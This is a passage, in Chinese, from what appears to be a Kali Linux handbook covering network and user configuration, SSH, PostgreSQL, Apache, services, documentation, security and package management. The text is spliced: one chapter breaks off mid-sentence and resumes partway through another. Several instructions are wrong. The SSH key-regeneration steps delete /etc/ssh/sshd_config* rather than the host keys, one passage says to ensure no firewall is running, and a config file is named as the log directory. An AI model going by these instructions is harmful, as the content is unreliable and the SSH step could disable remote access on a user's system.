在 `/etc/systemd/network/` 目录下，你需要放置网络文件。这将允许你配置 `systemd-networkd`。你可以找到 `[Match]` 部分，它包含关于网络接口的信息。在那里你也可以找到哪种配置适用于哪个网络接口。此外，你还可以配置接口的不同方面，包括 MAC 地址。

有时，networkd 可能会被禁用。这就是为什么你需要启用它才能使用。此外，在使用它之前，你需要确保你已经完成了 DNS 解析集成。可以通过创建一个指向 `/run/systemd/resolve/resolv.conf` 的软链接来替换 `/etc/resolv.conf` 文件来实现。

## Unix 组和用户管理

用户管理是任何操作系统的非常重要的部分。Kali Linux 也是如此。作为用户，你需要确保知道如何处理用户权限。有一些你应该了解的关键文件。让我们将它们列在下面：

- 用户列表 → `/etc/passwd`
- 用户的加密密码 → `/etc/shadow`
- 组列表 → `/etc/group`
- 组的加密密码 → `/etc/gshadow`

通过学习 `shadow`、`gshadow`、`passwd` 的文档，可以理解这些文件格式。

## 用户账户创建

Kali Linux 是一个复杂的操作系统。它高度依赖 root 用户来执行大多数任务。然而，可能会有创建没有 root 权限用户的理由，特别是如果你在日常中使用 Kali Linux 的话。

要添加用户，你需要使用 `adduser` 命令。

一旦你输入了该命令，它会要求你输入用户名。然后按回车完成任务。然而，如从上面的截图所示，它在完成创建用户之前会要求提供各种信息。它从创建用户、添加新组开始。该组的创建类似于 ID 为 1000 的组。你也可以通过在用户名后添加组来指定组。`adduser` 命令接受两个输入。第一个输入是用户名，第二个输入是组名。

`adduser [username] [groupname]`

你也可以通过输入下面的帮助命令来收集有关 `adduser` 如何功能的更多信息。

```
adduser --help
```

首先，它要求输入密码。你可以为新用户设置密码。用户可以在登录其会话后更改此密码。

接下来，它会要求你输入值以获取更多信息。你可以选择通过直接按回车来跳过它。用户本身在使用用户账户时可以输入这些信息。

`adduser` 命令询问的信息包括以下内容：

- 全名（Full Name）
- 房间号（Room Number）
- 工作电话（Work Phone）
- 家庭电话（Home Phone）
- 其他（Other）

如果你仍然想知道，可以检查 `adduser` 命令使用的配置文件。它存储在 `/etc/adduser.conf` 中。配置文件包含一些你可以学习的有用内容。例如，你会发现定义了 `useridentity(UID)` 范围以确保某些是否与组共享。

此外，你注意到它是如何在用户主目录中创建目录的。目录结构利用了 `/etc/skel/` 模板。`adduser` 命令使用模板和配置文件确保按照标准添加用户。

我们将讨论的第一条命令是 `passwd` 命令。这是一个简单直接的命令，允许你更改密码。任何 root 或普通用户都可以此命令。运行 `passwd` 不需要 root 权限。

一旦你输入该命令，它会要求你输入密码。在更改密码之前，它会再次要求你重新输入。

使用该命令会修改 `/etc/shadow` 文件。

## chfn

`chfn` 允许你更改用户的全名。它仅保留给超级用户（即 root 用户）使用。

## chage

`chage` 命令用于更改用户的密码过期设置。它只能由管理员使用，并用于强制执行良好的密码习惯。密码本质上是敏感的，因此需要定期进行修改。如果你想让用户立即更改密码，则需要使用 `-e` 参数。它将强制用户在下次登录时更改密码。

## 禁用账户

由于许多原因，某些账户需要被禁用，包括遵循某些规则或账户被他人黑客。为了确保这不会影响你的 Kali Linux 安装，你需要删除该账户，或者至少在进行调查时无限期地锁定用户。

要禁用账户，你需要使用 `passwd -l` 命令。

```
passwd -l [username]
```

这会锁定该账户。这意味着账户文件没有被删除，只是被锁定了。一旦解锁，以后可以再次引用它们。作为 Kali Linux 管理员，你应该只使用禁用账户的功能，以确保在需要时可以恢复该账户。此外，某些用户的家目录中可能包含敏感信息。数据一旦删除将无法恢复，因此在删除用户账户之前请务必考虑后果。

# 组管理

最后，我们将讨论如何管理组。组是任何 Linux 操作系统的关键部分，因为它们实现了组内文件和文件夹的共享。

你可以通过 `addgroup` 命令添加组。

要删除一个组，你可以使用 `delgroup` 命令。

如果你想修改组，则需要使用 `groupmod` 命令。它允许你使用 GID 或标识符来修改组。

你还可以使用 `gpasswd` 设置组密码。要移除密码，你需要使用以下命令：

```
gpasswd -r group
```

这标志着我们对 Unix 组和用户管理的讨论结束。现在，让我们转向配置服务。

## 配置服务

服务配置是 Kali Linux 的重要部分。当我们谈论服务时，通常指的是守护进程（daemons）。它们是在后台持续运行的程序。服务还负责确保系统按预期方式运行。

由于后台运行着大量服务，因此无法讨论每一项服务。这就是为什么我们将只讨论其中几个重要的服务。让我们开始吧，看看如何配置重要服务。

# 特定程序配置


在本节中，我们将学习配置特定的程序。在开始之前，你首先需要了解该程序。为了做到，你需要正确地阅读文档。通常，`README`文件位于以下位置 -> `/usr/share/doc/package/README.Debian`

通过阅读文档，你可以节省时间。通常，软件包的配置可能非常具体，而文档确实包含了此类配置所需的信息。文档还可能包含指向你认为有用的资源的链接。

接下来，检查软件的官方文档是一个好主意。

如果你感到迷茫，应该检查`dpkg -L package`命令。该命令将返回文件列表。从那里，你可以轻松找到文档。

另一个实用的命令是`dpkg -s package`，它显示有关软件包的元数据。元数据可能包含重要信息，或者简单地建议可能包含所需信息的软件包。

此外，你始终可以尝试提前运行配置。通过查看配置，你将知道会有什么结果，然后在文档中找到这些内容。

配置步骤在有适当注释的情况下也可以是言自其明的。在某些情况下，某些配置文件通过注释被禁用了。通过取消注释，你可以让配置文件运行并使软件包执行。

# 远程登录 SSH

SSH 代表 Secure Shell（安全外壳）。它允许用户远程连接到机器。连接后，你可以执行一组不同的任务，包括执行命令或传输文件。SSH 是 Linux 用户中为人知的工具。事实上，它被用于工业级连接远程机器。

要使用 SSH，你首先需要确保你的机器预安装了`openssh-server`。默认情况下，它是预安装的。如果没有，你需要使用`sudo apt-get install`命令进行安装。有时，SSH 服务也被禁用。为了使其正常工作，你需要使用以下命令：

```
systemctl start ssh
```

你还可以配置它在开机时启动。为此，你需要运行以下命令：

```
systemctl enable ssh
```

## 配置 SSH

默认情况下，SSH 提供了足够的配置。然而，你可以通过配置来使其功能更强大。要了解它提供了哪些功能，你可以检查配置文件`/etc/ssh/sshd_config`。文档可以在`sshd_config(5)`文件找到。

如果你是第一次使用 SSH，你会发现它不允许基于密码的登录。为了确保更改生效，你需要使用以下命令：

```
systemctl reload ssh
```

## 生成 SSH 密钥

SSH 密钥利用加密密钥。它们存储在`/etc/ssh/`中。你需要确保创建密钥。作为用户，你可能永远不需要使用它。要生成新密钥，你需要使用以下命令：

```
ssh-keygen
```

上述命令将生成密钥。接下来，你需要设置密码。

要更改密码，你需要使用以下命令：

```
passwd
```

上述命令将更改密码。接下来，你需要使用以下命令生成新密钥：

```
rm -f /etc/ssh/sshd_config*
```

```
dpkg-reconfigure openssh-server
```

```
service ssh restart
```

## PostgreSQL 数据库配置

作为 Kali Linux 的活跃用户，你需要使用 PostgreSQL —— 一个数据库服务器。涉及到其他服务或程序时，该服务非常有用。为了确保它正常运行，你需要使用数据库服务。要启动该服务，你只需要运行以下命令：

```
systemctl start postgresql
```

## 配置 PostgreSQL

默认情况下，PostgreSQL 监听 5432 TCP 端口。你可以通过编辑`postgresql.conf`文件来更改 PostgreSQL 设置。它运行在名为`/var/run/postgresql/.PostgreSQL.5432`的文件套接字上。

在`postgresql.conf`文件中，你可以通过编辑端口指令更改端口。其他关键指令包括用于更改 PostgreSQL 监听地址的`listen_address`以及处理操作期间创建的 Unix 套接字目录。

每当有人从网络连接时，他们可以通过两种不同的方式连接。这两种方式如下：

- 文件套接字：这是一个流行的方法，因为它利用 Unix 用户账户登录为 PostgreSQL 用户。这意味着一旦连接，就不再需要额外的验证，因此是最直接的连接方式。

- 通过 TCP 连接使用用户名和密码：在这种方法中，用户名和密码与你的操作系统登录用户名或密码不同。

要更改行为并配置如何登录，你可以检查`pg_hba.conf`文件，你可以在其中定义连接套接字以及所需的验证方法。

如果你想对数据库拥有完全控制权，那么使用第二种方法是一个好主意，因为 postgres 用户具有特权。

# 开始创建用户数据库

我们的下一步是现在创建一个新的数据库和用户。要创建一个用户，你需要使用`createuser`命令。删除一个用户也很简单，你只需要使用`dropuser`命令即可。如果你对这些命令的工作原理感到困惑，或者需要更多帮助，你可以随时使用`man`命令来阅读它们的手册。

# Apache 配置

我们需要配置的另一个重要服务是 Apache Web 服务器。Kali Linux 预装了 Apache。如果还没有安装，那么你需要安装`apache2`包。

要启动 apache 服务，你需要使用以下命令：

```
systemctl start apache2
```

我们需要学习一点 Apache，因为现在大多数应用程序都是以 Web 应用程序的形式发布的。通过学习如何使用 Apache，你可以自学如何在网络上托管你自己的应用程序，或者使用其他托管在网络上的应用程序。

Apache 采用模块化设计。这意味着你可以通过添加新模块来为 Apache 添加功能。此外，并不是所有的模块都是预装的，你可能需要安装它们才能使用。而且，大多数库在本质上是外部的。

作为 Apache 用户，你将发现一些已安装的常用模块。默认配置确保了这一点。

要启用新模块，你需要运行`a2enmod module`来启用该模块。你也可以通过`a2dismod module`禁用模块。

上述两个程序简单地删除用于禁用和启用模块的符号链接。符号链接存储在`/etc/apache2/mods-enabled`中。相反，实际文件存储在`/etc/apache2/mods-available`中。

# 启用和配置两个重要模块 - PHP 和 SSL

作为 Kali Linux 用户，你无法关注所有可用模块。这就是为什么我们将查看两个重要的模块，包括 SSL 和 PHP。

利用 PHP 的 Web 使用 Apache Web 服务器执行。它利用`libapache-mod-php`包。因此，如果你安装了 Apache，它将自动启用。另一方面，SSL 包是建立适当 HTTPS 连接所必需。它包含在 Apache 2.4 及更高版本中。

要启用 SSL，你需要使用`a2enmod SSL`。完成后，现在你需要添加指令，还需要编辑配置文件。

# 管理服务

到目前为止，我们已经学习了如何在 Kali Linux 上管理某些特定服务。现在是学习如何管理服务了。在启动序列，Kali Linux 利用`systemd`来初始化系统。

`systemd`初始化系统也是一个功能齐全的服务管理器。它让你管理服务，包括启动和监控它们。

那么，如何管理服务呢？让我们查看下面的内容。

`systemctl`用于控制和查询`systemd`。

要学习有关系统上的活动服务，你需要使用以下命令：

```
systemctl list-units
```

你也可以通过运行`systemctl status`命令在分级概述中列出服务。

如你所见，`status`命令提供了分级化的输出。你还可以看到不同类型的单元。另一方面，服务是这些单元的一部分。

一个服务单元代表每个服务。服务单元是存储在`/lib/systemd/system/`中的服务文件。还有另外两个存储这些服务单元的目录，包括`/etc/systemd/system/`和`/run/systemd/system/`。

# 本章学到的知识

- Kali Linux 易于配置

- 你可以使用`NetworkManager`配合使用`ifdown`命令来配置网络。

- 你还可以利用`systemd-networkd`来管理网络。

- Unix 组和用户管理也是 Kali Linux 的关键部分

- 你可以使用`adduser`命令添加用户

- 可以使用`getent`命令搜索用户名

- `passwd`命令用于更改密码

- `chage`命令用于设置密码过期时间

- 可以使用 SSH 进行远程登录

- 在使用其登录之前，你应该始终生成新的 SSH 密钥

- 使用 PostgreSQL 进行数据库管理对于学习也很重要

- 你可以使用`systemctl list-units`管理服务

- `systemctl status`命令用于检查进程状态

# 第 8 章

理解 Kali Linux 社区和文档


Kali Linux 是一个复杂的操作系统。即使你完全读完这本书，仍然会有某些内容被遗留。此外，即使你使用它多年，也没关系；总会有让你感到瓶颈的时刻。这就是 Kali Linux 社区和文档大显身场。简而言之，你需要尽可能利用资源。你需要能够自己为问题找到解决方案。这将让你成为一名胜任且优秀的问题解决者。

本章旨在提高你对 Kali Linux 社区的理解。显然，你有许多方法可以获得帮助，但在投入时间之前了解你的选择会更好。

我们还将涵盖如何最好使用可用信息的策略。让我们开始吧。

## 文档来源

Kali Linux 的文档非常详尽。这让你能够轻松使用 Kali Linux。此外，如果你想确保发生了什么，最好阅读文档。程序可能是复杂的东西，为了万无一失，请阅读文档。这样，你就可以确定程序的运行情况了。

在浏览论坛或社区时，有一点是你需要警惕的。这是一个流行的术语，RTFM。它的全称是 "Read The Manual"（阅读手册）。它也可以意味着 "Read The Fucking Manual"（去读那该死的手册），因为由于你是新手，直接读手册就行了。

## 手册页 Manual Pages

你查找信息的第一个地方是手册页。手册页通过不同的方式组织信息。查找程序或命令的手册的命令是 `man [command]`。例如，如果你想了解 `ls` 命令的作用及其结果，你需要使用以下命令：

```
man ls
```

手册页还用于记录 Kali Linux 的其他方面。例如，它还记录了系统调用、库函数、配置等。然而，这可能会导致问题，因为名称可能会冲突。一个经典的例子是 `read` 命令和 `read` 系统调用。为了确保这个问题不会干扰你的工作，手册页是编号方式组织的。让我们看看这些章节：

- 命令 Commands
- 系统调用 System calls
- 库函数 Library functions
- 设备 Devices
- 配置文件 Configuration files
- 游戏 Games
- 标准和宏集合 Standards and macros sets
- 系统管理命令 System administration command
- 内核程序 Kernel routines

上述章节编号可以帮助你阅读所需的命令手册。如果你想阅读 `read` 系统调用，你需要使用以下命令：

```
man 2 read
```

这将显示 `read` 系统调用的手册页。如果你想了解 `read` 命令，你需要使用以下命令：

```
man 1 read
```

如果你想阅读命令的手册，也可以不包含编号，因为它们位于章节的最顶部。如果命令或程序相关，它默认取 1。如果你想阅读 `shadow` 的手册而不加任何数字，它将直接返回 `shadow(5)`，考虑到 1-4 章节没有可以返回的内容。

如果你正在寻找关于命令的更多信息，也可以查看“另参见” See Also 部分。如果文档包含该部分，它将包含有关某些外部文档的链接。

还有其他查找文档的方法。你可以在 Gnome 中使用 `yelp`，在 KDE 中使用 `Konqueror`。

## 了解 info 文档

除了帮助页 manual pages 之外，你还可以查看 info 文档。这是一个旨在以 info 格式编写文档的 GNU 项目。你也可以找到许多以 info 格式编写的手页。然而，由于其复杂性，查看这些页面可能是一项艰巨的任务。为了确保无需手动翻阅，可以使用 `pinfo`。它让你能够以更好的方式阅读复杂信息。

要安装 `pinfo`，你需要使用以下命令：

```
apt install pinfo
```

你可能还需要运行以下命令以确保所有依赖项都已预安装。

那么，info 文档看起来是什么样的？它采用层级结构。

## 软件包特定文档

所有软件包都带有自己的文档。你可以轻松地在包内找到 `README` 文件，它包含了关于如何安装、操作和排错软件包的必要信息。

软件包特定的文档存储在 `/usr/share/doc/package/` 目录下。只需将包名更改为你正在使用的包名，即可找到特定文档。如果你找不到它，那么文档可能有一个独立的包。这意味着软件包文件可能很大，这使其成为独立包的理想选择。在这种情况下，文档存储在 `package-doc` 中。你可以在安装时找到该文档包，它会向你推荐以便你安装。如果你仍然找不到文档，则需要搜索软件包网站。

Debian 也会积极为某些软件包提供文档。这些文档文件包含在软件包的默认位置。这通常会改进文档质量，使用户从中受益。

## Docs.Kali.Org：Kali 文档

Kali Linux 在 `docs.kali.org` 有其官方文档。我们的工作包含了许多关于 Kali Linux 内容，但了解 Kali Linux 文档始终很重要。它包含了一些有用信息，包括教程。

如果你打开文档，你会发现文档涵盖了许多内容，包括介绍、USB 安装、ARM 版 Kali、虚拟化、基础镜像、容器、云、Windows 的 Linux 子系统 WSL、工具、通用用法、Kali NetHunter 文档、排错、社区、Kali 开发和政策。

所有这些类别都包含有价值的信息。

## 社区驱动 Kali Linux

Kali Linux 是一个社区驱动的项目。你可以在社交媒体上找到大量社区。事实上，在 Kali 方面，也有喜欢分享知识和帮助他人的本地社区。社区是你帮助他人、分享有用信息并与志同道合的人互动的地方。为了帮助你，我们将列出你可以加入并成为其一部分社区。

## Freenode 上的 IRC 频道

Kali Linux 在 Freenode 有 IRC 频道。IRC 代表实时聊天系统。在这里你可以直接与一群人实时互动。这些聊天室本质上是带有主题的频道。

你可以通过打开 `chat.freenode.net` 作为 IRC 服务器并监听 6667 端口连接到 Freenode 上的 Kali 频道。如果这看起来太技术，你也可以使用 IRC 客户端方便地连接到服务器。

如果你喜欢命令行模式，我们推荐使用 `irssi`。`Hexchat` 也是一个不错的选择，因为它提供了图形界面。如果你对下载任何客户端都不感兴趣，可以查看 `webchat.freenode.net` 网页客户端。

## 理解规则

IRC 频道在规则和规定方面非常严格。在加入或与其他成员互动之前，请确保你阅读了规则。如果你犯了错，可能会被禁言或从服务器中移除。

## 成为社区的一部分：提交报告

要创建一个伟大的社区，你还需要成为一名活跃的贡献者。这样做最好、最简单的方法之一就是提交 bug 报告。这些报告可以帮助开发者解决问题并让 Kali Linux 变得更好。你可能已经知道并不是所有的文件...

然后，你需要找到系统可能被破坏的极端条件。

另一个重要因素是实施安全措施的成本以及相关的风险。在某些情况下，保护风险的成本可能与其价值不成正比。你还需要评估如果风险被他人利用将造成的损失。如果损失小于实施成本，那么保持原样会更好。

## 数据机密性

数据机密性非常重要。对于任何想要保护自己系统的人来说，它都是首要任务。作为 Kali Linux 用户或任何系统的用户，你需要确保你或你系统的关键数据得到保护。这应该是你的当务之急，你应该认为这比任何其他安全考量都更重要。如果你不保护数据，它们可能会落入恶意实体手中，并以某种方式伤害你。黑客还可以删除你的数据、破坏你的硬盘，或者简单地利用这些信息来获取相对于其他计算机的优势。这使得数据机密性成为安全领域的一个大话题。

## 极端情况

在保护系统或数据安全时，任何安全策略都应该考虑极端情况。极端情况是指那些发生概率低且依赖于任何系统中硬性漏洞的情况。零日漏洞利用也可以被视为极端情况，因为它们以自己的方式保持新鲜且新颖。几乎每个系统都会受到零日漏洞利用的影响。此外，并不是所有的极端情况都可以被考虑，因为解决它们的难度很大，或者与之相关的成本过高。然而，根据其带来的严重程度，少数极端情况应该被解决。

## 方法

系统本质上可能是复杂的。这使得创建系统策略变成了一件困难的事情。然而，有一种方法可以简化这一过程。作为用户，你可以为子系统创建安全策略。这种分段需要被用来以确保你可以缓慢而稳定地进行。这还将帮助你理解每个子系统的限制和需求，然后根据广泛的安全策略和需求进行适当的风险评估。

此外，防御系统免受小类型攻击总是很容易。已经有了成熟的方法来保护你的系统免受此类攻击。然而，大型攻击才是你应该花费大部分时间的地方。最后，你需要确保不惜代价地保护数据。

最后一点你需要确保的是根据你接收到的流量定义你的防火墙规则。

## 安全措施

那么，你可以采取哪些安全措施来保护 Kali Linux 呢？让我们来看下面的选项。

## 笔记本电脑安全

如果你使用笔记本电脑进行渗透测试，你就必须保护自己免受与个人电脑相关的风险。由于你不在公共服务器上，你至少不需要担心那些使用脚本黑入系统的人。由于你没有连接到网络，你几乎对基于**的攻击是安全的。


真正的挑战是保护你的笔记本电脑免受周围人的侵害。当局有可能没收你的笔记本电脑，而你可能不希望他们阅读你笔记本电脑的内容。为了确保他们不这样做，你需要使用全磁盘加密。如果你认真对待笔记本电脑内的数据或其他信息，你也可以选择“核弹选项（nuke option）”。如果你有核弹选项，它只需通过组合键即可从笔记本电脑中删除所有数据。

除了数据安全外，当你连接到互联网时，你还需要确保有适当的防火墙保护。这将防止他人的非授权访问。在这里配置防火墙规则非常重要。只需确保你只过滤你需要的流量即可。

## 服务器设置保护

公共服务器上的 Kali Linux 与笔记本电脑不同。在这里，你需要更强的安全性，并确保保持你的登录用户名和密码安全。此外，你每次连接时都必须使用防火墙。需要确保的一点是为你创建的用户生成一个强密码。确保密码足够强，以便它们不会被暴力破解攻击破解。

## 如何保护网络服务

Kali Linux 带有大量的服务。作为一条良好的经验法则，不要激活你不需要的服务。简单地禁用它们即可。即使你没有禁用它们，Kali Linux 也会为你禁用它们。

此外，你需要确保默认没有防火墙在运行。如果默认运行着防火墙，意味着它正在监听你不希望监听的网络接口。

此外，运行在公共服务器上的一些服务可能不需要任何身份验证即可连接或发现。作为 Kali 用户，你需要确保身份验证已启用，并为它们设置良好的密码以防止你被发现。这里的关键是以最好的方式实现隐私。你可能还想禁用需要 root 权限才能运行的服务。如果有人获取了这些服务的访问权限，他们就可以获得访问你的 Kali Linux 安装的权限。

## 让你的防火墙工作：数据包过滤

你可以用防火墙保护你的 Kali Linux 设置。防火墙有三种类型：硬件、软件或两者兼有。它的工作是过滤数据包并确保它们满足某些条件。如果你是网络的一部分，你也可以使用过滤网络，这可以节省整个网络。网络防火墙有其专用机器，因为它们需要执行大量的数据包过滤工作。

然而，作为 Kali Linux 用户，你的主要工作是保护你本地的网络安装。好消息是，Linux 自带了防火墙解决方案。它是 Netfilter 防火墙。但有一个需要注意的之处：你不能简单地将其关闭并不管。你需要根据你的网络配置 Netfilter。

可以使用 `iptables` 和 `ip6ables` 配置 Netfilter。`iptables` 命令用于 IPv4，而 `ip6ables` 用于 IPv6。你也可以使用带有图形界面的工具 `ufw`，它可以以图形化方式选择防火墙规则。

`top` 工具提供了大量信息，包括处理器时间、占用内存和进程标识符。它还允许你使用 `k` 键杀死进程。

`top` 工具对于监控系统非常有用。它还能帮助你发现是哪个进程通过占用内存或处理器来拖慢你的系统速度。

## 如何检测变化

掌握了系统监控的知识，现在是时候学习如何检测变化了。这些检测变化的想法可以帮你判断系统文件是否发生了变化。如果在基础安装后发生了变化，那么可能意味着恶意攻击者修改了系统文件。

你可以使用 `dpkg --verify` 工具来验证系统文件完整性是否发生了变化。命令如下：

```bash
dpkg --verify
dpkg -V
```

然而，这并不是判断所讨论系统是否真的被攻破的可靠答案。这就是为什么你可能需要使用更高级的工具。我们不会讨论这些工具，因为它们超出了本书的讨论范围。

# 本章学到的知识

- 作为一名 Kali Linux 用户，你应该保护好你的 Kali Linux。
- 应该使用安全策略来确保适当的安全。
- 你还应该确保在任何代价下维护数据的机密性。
- 在处理操作系统安全时，也应该考虑极端情况。
- Kali Linux 系统的安全也取决于它安装的位置。如果你使用的是笔记本电脑，那么你需要一种不同的安全方法。在公共服务器上访问操作系统意味着另一种不同的方法。
- 你应该使用软件包防火墙来保护你的操作系统。
- 日志记录对于访问系统的健康状况也很重要。
- 日志文件存储在 `/etc/logcheck/logcheck.logfiles` 目录下。
- 你也可以使用 `top` 命令进行实时监控。
- 要检测核心系统软件包的变化，你需要使用 `dpkg --verify` 命令。

# 第 10 章

## Debian 软件包管理

Kali Linux 是一个基于 Debian 的 Linux 操作系统，特别是 Debian 软件包管理系统。它简单地借用了 Debian 的包管理系统。我们已经讨论过如何创建并将新包添加到 Kali Linux 中。

Kali Linux 的核心是软件包管理系统，如果我们能学习它，就能了解到很多关于该操作系统的知识。通过学习它，我们将了解 Kali Linux 是如何结构化和使用的。它在需要时也能帮助你排除故障。

在本章中，我们的重点将是 Debian 软件包管理系统。我们还将学习 APT 套件工具和 `dpkg`。通过学习，你将理解 Kali Linux 的主要优势，即它的软件包管理系统。Kali Linux 也以其软件包管理系统和无缝的安装过程而闻名。

软件包管理系统还确保你不需要为了运行而辛苦工作，因为管理系统会自动处理大部分事情。让我们开始吧。

# APT 简介

APT 代表高级软件包工具（Advanced Package Tool）。它比 `dpkg` 更先进。但是，`dpkg` 首先是做什么的？两者如何比较？让我们来看看。

## APT 与 dpkg

任何软件应用程序都存储在 Debian 软件包中。此外，如果你想构建二进制软件包（.deb），你需要拥有源码包（source-pack），它包含了安装包所需的指令和文件。如果你只考虑二进制软件包（.deb），它只包含直接可以使用文件，包括文档或程序。

简而言之，一个 Debian 软件包配备了安装该包所需的所有信息。元数据还包括依赖项，并有正确的信息来如何管理软件包的安装、升级和删除。

要安装 Debian 软件包，你需要使用 `dpkg` 工具。该工具非常方便，大多数时候用于安装软件包。然而，如果缺少依赖项，它将无法安装该软件包。此时会抛出错误。

高级软件包工具（APT）则完全能够安装缺失的依赖项。它是通过 `apt` 和 `apt-get` 命令来实现的。APT 仅仅是 Debian 软件包的升级版本。

## Kali-Rolling 仓库

Kali-Rolling 仓库面向终端用户。在这里，你可以找到可以在 Kali Linux 操作系统中使用的最新软件包。系统使用一个合并了 Kali 特有包和 Debian Testing（测试版）的工具，以维护依赖关系。这对于终端用户来说是理想的，因为所有软件包都可以在没有太大问题的情况下安装。Kali-Rolling 仓库几乎每天都会更新。这意味着 Debian Testing 也在随之演进。

## Kali-Dev 仓库

Kali-Dev 仓库供开发人员使用。它不对公众开放。开发人员确保在将软件包移动到主 Kali-Rolling 仓库之前，先在此处解决依赖问题。来自 Debian Testing 的包首先进入这里，然后经过恰当的测试方法。如果你是高级用户，可以选择与该仓库一起工作，但在使用时要小心，这可能会导致数小时的故障排除工作。

## Kali-Bleeding-Edge 仓库

该仓库存储了所有从上游 Git 构建的新软件包。它是自动构建的。这意味着你可以访问到错误修复和最新功能。这些更改非常新，只要更改一发布，你就可以获取它们。如果你认为你的错误报告已经解决，可以通过尝试该仓库来验证。当然，这也有缺点。例如，更改没有经过彻底检查，因此可能存在问题。也可能存在依赖问题。

通过在 `sources.list` 文件中添加以下行可以访问 Kali-Bleeding-Edge 仓库。

```
deb http://http.kali.org/kali kali-bleeding-edge main contrib non-free
```

## 基础软件包交互

现在我们已经学习了仓库、APT 和 dpkg，现在是时候学习如何进行基础的软件包交互了。

正如我们所知，APT 是一个强大的工具。它单兵作战地管理软件包的安装、维护和删除。事实上，如果需要，它还会管理依赖关系。它是通过 `apt-get` 命令行工具来实现此点的。它基本上克服了 `dpkg` 的缺点。

在开始你的 APT 旅程之前，请确保运行了 `apt update` 命令。它将更新可用的软件包列表以及下载软件包的源。

## 安装软件包

让我们来看看如何使用这些工具安装软件包。首先，我们将通过 dpkg 和 APT。

### 使用 dpkg 安装软件包

`dpkg` 是确保软件包可以安装的核心工具。`dpkg` 工具仅适用于 .deb Debian 软件包。要安装软件包，你需要使用以下命令。

```
dpkg --unpack packagename
```

在这里，你首先需要使用 `dpkg` 的 `--unpack` 选项解包软件包。它会解包软件包并处理触发器。现在，你需要为该软件包配置数据库。要这样做，你需要运行以下命令。

```
dpkg --configure packagename-db
```


在这里，你将 `packagename` 更改为你要使用的软件包名称。

一旦你运行带有 `--unpack` 或 `--configure` 命令的 `dpkg` 命令，某些 `--steps` 将被自动执行。此外，如果存在依赖关系，命令将抛出错误，显示依赖包不存在。

你也可以通过简单让 `dpkg` 命令忽略错误来强制安装软件包。其中一种常见错误是文件冲突错误。要强制安装软件包，你需要运行以下命令。

```
dpkg -i --force-overwrite packename.deb
```

### 认识 APT - 一个更优的整体解决方案

APT 是一个高级工具，处理的内容比 `dpkg` 很多得多。它让与软件包的交互变得简单容易。这就是为什么作为初学者，你应该始终使用 APT。

`apt` 的命令如下所示。

```
apt install package-name
```

你也可以使用替代命令，如：

- `apt-get install package-name`
- `aptitude install package-name`

一旦运行，它会首先读取软件包列表并创建依赖树。一旦树完成，如果没有发现任何缺失的依赖，它将移动安装软件包。但如果缺失任何依赖，它将更新它们并安装。在操作之前，它会显示有多少软件包需要更新或安装。如果你在键盘上按下 Y，它会自动处理并完成安装过程。

## Kali Linux 升级

Kali Linux 是一个活跃的操作系统。它持续更新新功能和软件包。在本节中，我们将学习如何保持 Kali Linux 升级。

对于常规升级，你需要使用以下三个命令：

- `apt upgrade`
- `apt-get upgrade`
- `aptitude safe-upgrade`

这三个命令确保需要升级的软件包不会被删除。通过运行命令，你可以获得最好的 Kali Linux 体验。软件包的选择由 `apt` 工具完成。它选择最新的稳定版本。如果你不在意删除过时的软件包，你可以使用以下命令：

```
apt full-upgrade
```

如果需要安装新软件包，命令将毫不犹豫地删除旧软件包。在需要安装新软件包时，建议使用该命令。

要检查软件包的状态，你需要使用 `--status` 选项。语法如下。

```
dpkg --status [package-name]
```

```
dpkg -s [package-name]
```

## 列出已知软件包

要列出系统中的所有软件包，你需要使用以下命令。

```
dpkg --list
```

```
dpkg -l
```

这两个命令的作用相同。如果你想，还可以提供通配符作为第三个参数来搜索特定的软件包。这将根据你用于搜索的通配符或字符串来执行搜索。相应的命令如下。

```
dpkg -l 'file*'
```

## 软件包故障排除

在运行 Kali Linux 时遇到问题是工作的一部分。因此，在本节中，我们将介绍故障排除。

## 升级后的问题

升级 Linux 操作系统有时会导致问题。它可能会导致包括不兼容软件包、漏洞甚至不稳定在问题。在这种情况下，你可以采取以下操作。

# Bug 报告

作为用户，你可能想要报告 bug。你也可以关注 Kali bug 跟踪器，了解该 bug 是否已经报告。如果没有报告，你应该着手报告。你还应该阅读我们讨论 bug 报告的章节。此外，确保你提供了尽可能详细信息的完善 bug 报告。

## 降级

如果需要，你也可以进行降级。有时，需要对你的 Kali Linux 或升级的软件包进行降级。如果你知道旧的软件包版本，就可以降级。这样你可以使用 APT 命令安装该版本。如果你有旧的 `.deb` 文件，也可以对软件包进行降级。通常情况下，Kali Linux 或 Debian 的 `.deb` 文件存储在几个地方：

`/var/cache/apt/archives/`

Kali 镜像源池目录

你也可以在 `http://snapshot.debian.org` 找到旧版本的软件包

# 本章学到的知识

- 你可以使用 APT 和 `dpkg` 工具安装软件包
- APT 代表高级软件包工具 (Advanced Package Tool)
- `dpkg` 是处理适当软件包管理的核心
- APT 更加先进，因为它提供了无缝的软件包管理
- 有了 APT，你不需要担心依赖问题
- 多个 Kali Linux 仓库持有这些软件包
- 对于普通用户来说，Kali-Rolling 仓库是最好的，因为它提供了经过测试的软件包
- 开发者使用 Kali-Dev 仓库
- 你可以从 Kali-Bleeding-Edge 仓库获取最新的软件包
- 要安装软件包，你可以使用 `dpkg` 或 APT 命令
- 你可以使用 `apt upgrade` 命令升级软件包
- 你可以使用 `dpkg --remove` 移除软件包

# 第 11 章

# Kali Linux 与安全评估

在本章中，我们将探索 Kali Linux 如何帮助我们进行安全评估。首先，让我们熟悉一下信息系统层面的“安全”意味着什么。我们之前也涵盖了 CIA 三元组。为了复习，让我们再次过一遍。

主要地，你应该关注以下三个主要属性：

- **机密性 (Confidentiality)** - 你的系统信息是否免受未经授权访问的保护？
- **完整性 (Integrity)** - 你的系统信息是否会以非预期或非想要的方式被更改或修改？
- **可用性 (Availability)** - 最后，系统上的所有数据和信息是否在需要时可以随时被访问？

这三个因素构成了网络安全的三元组，也被称为 CIA。这些是你部署、维护和评估过程中将重点关注的安全关注点。考虑到此考虑，让我们进入如何在安全评估中使用 Kali Linux 的学习题。

## 为安全评估准备 Kali Linux

首先要确保的是始终使用纯净的 Kali Linux 安装。许多缺乏经验的安全专业人员会犯一个初级错误，在多次安全评估中使用同一个安装版本。这可能会导致很多问题。

从开始，在安全评估期间，你需要重新安装、调整和更改系统。所有这些更改将相互叠加，增加未来配置的整体复杂性。此外，每项评估都有其独特之处，使用相同的安装可能会导致客户数据的交叉污染。

然而，你可以使用针对其要评估的网络/系统预先定制的 Kali Linux 版本。事实上，这可以帮助实现部分过程的自动化，从而使操作更加方便并减少时间消耗。

在创建自定义的 Kali Linux 安装时，请记住以下几点：

